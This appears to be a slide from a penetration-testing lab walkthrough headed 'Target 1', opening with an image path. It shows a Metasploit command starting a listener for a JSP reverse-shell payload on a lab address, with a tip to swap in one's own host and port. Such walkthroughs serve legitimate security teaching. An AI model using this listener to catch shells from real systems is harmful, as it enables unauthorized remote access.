

# Target 1
We need a listener, to catch our shell with
msfcli multi/handler payload=java/jsp_shell_reverse_tcp LHOST=192.168.242.133 LPORT=4444 E
Replace LHOST/LPORT respectively